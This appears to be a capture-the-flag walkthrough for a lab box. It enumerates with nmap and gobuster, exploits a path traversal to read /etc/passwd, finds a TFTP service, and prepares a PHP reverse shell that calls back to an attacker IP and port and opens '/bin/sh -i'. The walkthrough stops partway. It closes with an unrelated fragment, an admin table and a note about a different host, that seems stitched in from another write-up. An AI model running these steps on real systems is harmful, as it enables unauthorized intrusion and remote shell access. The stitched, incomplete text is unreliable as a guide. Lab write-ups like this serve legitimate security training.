 ## ----------->> PathFinder <<-----------

// Start Enumerate with nmap 

    $ nmap -sC -Pn -A -sV 10.10.10.55 -p-
    Nmap scan report for 10.10.10.55
    Host is up (0.36s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    | http-title: Site doesn't have a title (text/html; charset=UTF-8).
    |_Requested resource was http://10.10.10.55/?file=index.php

// navigating to http://10.10.10.55 redirects us to http://10.10.10.55/?file=index.php
    
// Direction search with gobuster

    $ gobuster dir -u http://10.10.10.55/ -w /usr/share/wordlists/dirb/common.txt -q -n -e
    http://10.10.10.55/.hta                 [Size: 276]
    http://10.10.10.55/.htaccess            [Size: 276]
    http://10.10.10.55/.htpasswd            [Size: 276]
    http://10.10.10.55/fonts                [Size: 310] [--> http://10.10.10.55/fonts/]
    http://10.10.10.55/images               [Size: 311] [--> http://10.10.10.55/images/]
    http://10.10.10.55/index.php            [Size: 304] [--> http://10.10.10.55/]       
    http://10.10.10.55/server-status        [Size: 276]    

// not much on gobuster so we open burpsuite and sent the request to reapter 
// then we change input to ../../../../etc/passwd
![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Included/1.png)

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
    syslog:x:102:106::/home/syslog:/usr/sbin/nologin
    messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
    _apt:x:104:65534::/nonexistent:/usr/sbin/nologin
    lxd:x:105:65534::/var/lib/lxd/:/bin/false
    uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
    dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
    landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:109:1::/var/cache/pollinate:/bin/false
    mike:x:1000:1000:mike:/home/mike:/bin/bash
    tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin

// As we can see the server is vulnerable for Directory Traversal , if we can upload file we could call him and get shell.
// since we dont have a way to upload file at this time we will continue enumerate
// when waching close on the passwd users we can see there is a tftp user
    
    tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
        
// since we didnt discover any tftp service with nmap lets try UDP scan

    $ sudo nmap -sU -v 10.10.10.55
    Nmap scan report for 10.10.10.55
    Host is up (0.15s latency).
    Not shown: 995 closed ports
    PORT      STATE         SERVICE
    69/udp    open|filtered tftp
    764/udp   open|filtered omserv
    16402/udp open|filtered unknown
    34861/udp open|filtered unknown
    37144/udp open|filtered unknown
    
// There is really tftp service on port 69
// lets try to connect tftp

    $ tftp 10.10.10.55 69
    tftp> ?
    Commands may be abbreviated.  Commands are:

    connect 	connect to remote tftp
    mode    	set file transfer mode
    put     	send file
    get     	receive file
    quit    	exit tftp
    verbose 	toggle verbose mode
    trace   	toggle packet tracing
    status  	show current status
    binary  	set mode to octet
    ascii   	set mode to netascii
    rexmt   	set per-packet retransmission timeout
    timeout 	set total retransmission timeout
    ?       	print help information
// Ok, we have connection to server to Upload/Download files!, But, how can we know which directory the file uploaded will be stored ?
// again we will check passwd

    tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
// /var/lib/tftpboot

### -----Foothold------

// First lets make php reverse shell to upload

    $ cp /usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php php-reverse-shell.php
// Chane IP and Port

    $ nano php-reverse-shell.php
    ...
    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '10.10.16.7';  // CHANGE THIS
    $port = 1444;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;
    ...
--------------------------------------------------------------------

Access ID | Name | Email
----------|------|-------
34322 | admin | admin@megacorp.com

// When navigating to uploads (http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads) we get error due privilleges


